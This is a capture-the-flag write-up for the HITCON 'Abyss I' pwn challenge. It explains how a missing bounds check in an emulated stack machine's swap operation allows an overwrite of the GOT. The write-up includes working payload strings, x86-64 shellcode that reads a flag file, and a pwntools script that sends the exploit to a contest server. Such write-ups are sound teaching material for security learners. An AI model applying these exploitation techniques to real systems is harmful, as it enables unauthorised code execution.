

# Abyss I
## Pwn 230

#### bigrick

From the directions, it looks like they wrote their own hypervisor and kernel on top of the userspace challenge. Checking the executable permissions showed modern protections, which made me unsure of the hint of "NX?"

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

### RE

In the binary I see that `main` prints a line, reads some characters, to a global buffer, then calls `work` if reading was successful. So the real business is in work.

`Work` gets the `strlen` of our input buffer and stores the length on its stack. Then there's a big loop that seems to iterate over every character of input.


The first parsing step branches on some flag returned from `__ctype_b_loc()` which is a helper function to the `isalnum` and `isalpha` family. In this case, it looks like an inlined `isdigit` based on the branch to `fetch_int`. Indeed `fetch_int` parses a decimal number until a non digit is encountered.


After `fetch_int` the value is sent to `push`. Push takes the value, calculates an offset based off of the `machine` global (renamed to `stack-ptr` here) and another global (renamed `stack` here), then writes the value there. The stack-ptr is incremented as well. This was the first indication to me that the user.elf program is an emulator of sorts.

The other side of `work` loop parses letters and symbols. Here is the letter parsing:



So letter parsing just takes the numerical value of lowercase letters starting with a = 0, b = 1 ... z = 25. That will be clear later.

The last part of the `work` loop is for symbol parsing. This stub passes the character to `commands` and if the return value is not NULL, it will call the function pointer returned.


`Commands` features a large jump table that returns function pointers based on the symbol passed, or NULL if the symbol doesn't map.


Among the commands were arithmetic operations, `pop_`, `swap_`, `store` and `fetch`, and two different `write`. It seems like this is definitely some kind of emulated stack machine. `store` and `fetch` take a value off the stack and access a uint32 array of size 26 in the data section. This must be for some registers a-z that are parsed as 0-26.

Cool! I had not pwned any emulators before, so this was very exciting! I had to find some way to use the emulated stack machine to leave it's confines and read and write the user.elf process memory.

### Breakout

It seems like the `pop` and `push` operations are properly bounds checking the emulated stack pointer. But the `swap_` command does not! It swaps the values at stack-ptr*-1* and stack-ptr*-2* without any regard for what stack-ptr is. This is especially bad because the stack pointer is directly below the first item on the stack:

All I have to do is put a negative value on the stack, call `swap`, and now the stack pointer points outside our emulated stack! The payload for this looks something like `4294967270\`. Append that with a handful of '.' and this will leak out the .data section one %d at a time :)

Vulnerable situation before `swap_`:
```
0x2020a0 uint32_t stack-ptr = 0x1   ──╮
0x2020a4 uint32_t stack[0] = -0x2     │
0x2020a8 uint32_t stack[1] = 0x0  <───╯
0x2020ac uint32_t stack[2] = 0x0
```

Vulnerable situation after `swap_`:
```
0x202098                          <───╮
0x20209c                              │
0x2020a0 uint32_t stack-ptr = -0x2  ──╯
0x2020a4 uint32_t stack[0] = 0x1      
0x2020a8 uint32_t stack[1] = 0x0
0x2020ac uint32_t stack[2] = 0x0
```

Once the emulated stack pointer is negative, anything in the .data section is fair game!

### Payload

Leaking data alone does not help much, especially since I only have one input string to send. I needed to craft a program to overwrite the GOT. Fortunately there are plenty of operations to choose from. Since the stack machine operates on 32 bit values and the emulator is 64 bit, I had to consider carefully how to not clobber either dword of the GOT value I intended to change.

The GOT initially looks like this:
```
0x202018 int64_t (* const puts@GOT)
0x202020 int64_t (* const write@GOT)
0x202028 int64_t (* const strlen@GOT)
```

But to the stack machine it looks like this:
```
0x202018 int32_t (* const puts@GOT)   <-- lower dword
0x20201c int32_t (* const puts@GOT)   <-- upper dword
0x202020 int32_t (* const write@GOT)  <-- lower dword
0x202024 int32_t (* const write@GOT)  <-- upper dword
0x202028 int32_t (* const strlen@GOT) <-- lower dword
0x20202c int32_t (* const strlen@GOT) <-- upper dword
```

This is where I used the store to register ability. I clobbered the lower half of `strlen@GOT` (won't be called again anyway), and targeted `write@GOT` as my overwrite (I control when `write` is called because of `write_`).

My first successful (sort of) payload was:
```
10,4294967265\a:4294943308+a;,
  │          │ │          │ ││
  │          │ │          │ │╰─> 6. call write
  │          │ │          │ ╰─> 5. restore upper half of write
  │          │ │          ╰─> 4. add offset to libc magic gadget
  │          │ ╰─> 3. store upper half of write
  │          ╰─> 2. take over stack ptr
  ╰─> 1. resolve libc write
```
_Note: this only works with ./user.elf, not the challenge kernel & hypervisor_

I was pretty sad that didn't work in production :( Evidently the kernel did not implement the execv system call, or it was blocking the request. I was also stumped. It seemed very difficult to put together three similar calls to `open("flag", 0)`, `read()`, then `write` this way. Perhaps it could be done, but I took a break and was searching for similar ctf challenge writeups. I found [this writeup](https://david942j.blogspot.com/2018/09/write-up-tokyowesterns-ctf-2018.html) that the challenge author, david942j, recently did!

The key takeaway was that even though the user.elf specified NX (non executable pages), the kernel must implement it to take effect. I took a guess and made up some shellcode (with no NULLs), that I could jump to and test the theory. And it worked :)

My shellcode loader was:
```
4294967265\a:2107690+a;,
                │      ╰─> 2. call shellcode
                ╰─> 1. offset to shellcode from write@GOT.PLT
```

Shellcode, compile with `nasm -f bin sc.asm`
```
BITS 64
main:
        ; nop sled and buffer
        times 70 nop

        ; open("flag", 0, 0);
        mov eax, 0x67616c66
        push rax
        mov rdi, rsp
        xor rsi, rsi
        mov rax, rsi
        mov rdx, rax
        inc rax
        inc rax
        syscall

        ; read(fd, buf, 64);
        mov rdi, rax
        lea rsi, [rel main]
        xor rdx, rdx
        inc rdx
        shl rdx, 7
        xor rax, rax
        syscall

        ; write(1, buf, 64);
        xor rax, rax
        inc rax
        mov rdi, rax
        lea rsi, [rel main]
        mov rdx, rax
        shl rdx, 7
        syscall
```

Put all together with pwntools:
```{python}
#!/usr/bin/env python
from pwn import *

r = remote('35.200.23.198', 31733)
r.recvuntil('down.\n')

with open('sc', 'rb') as sc:
    sc = sc.read()

payload = '4294967265\\a:2107690+a;,'+sc
r.sendline(payload)
print r.recvall()
```

This yielded that sweet, sweet, flag: `hitcon{Go_ahead,_traveler,_and_get_ready_for_deeper_fear.}`

### Conclusion

Overall I had a ton of fun with this challenge, and I look forward to reading writeups of parts 2 and 3 from smart people who got that far :) Thanks to david942j for the great chal and HITCON for the fun ctf!
